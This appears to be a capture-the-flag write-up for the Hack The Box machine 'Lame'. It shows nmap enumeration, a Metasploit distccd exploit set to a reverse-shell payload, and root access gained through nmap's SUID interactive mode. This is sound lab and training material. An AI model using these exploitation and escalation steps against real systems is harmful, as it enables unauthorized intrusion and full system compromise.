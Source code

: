 ```yaml
---
title: HTB - Lame
date: 2023-11-27
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, suid, hacktricks, metasploit, distccd, cve-2004-2687]
img_path: /assets/htb/fullpwn/lame/
published: true
image:
    path: lame_banner.png
---
```


## Overview

|:-:|:-:|
|Machine|[Lame](https://app.hackthebox.com/machines/1)|
|Rank|Easy|
|Time|45min|
|Focus|SUID, Metasploit|

## 1. Initial Enum

```shell
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 10.10.10.3 -p-

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp   open  ssh    OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

Aggressive OS guesses: Linux 2.6.23 (92%)

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m21s, deviation: 3h32m10s, median: 19s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-11-27T15:18:00-05:00
```

> FTP server is empty & SMB enumeration lead to nothing.

## 2. Initial Foothold

> [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc): _**Distcc** is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed._

> msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse

```shell
# meterpreter
cd home
ls
ftp
makis
service
user
cd makis
ls
user.txt
```
## 3. Privilege Escalation

```shell
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
...
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

<figure>
    <img src="gtfobins_suid_sudo_nmap.png"
    alt="GTFOBins nmap" >
</figure>

> SUID section does not work --> SUDO (b) works!

```shell
daemon@lame:/usr/bin$ ./nmap --interactive
./nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
```

<figure>
    <img src="lame_pwned.png"
    alt="Machine pwned" >
</figure>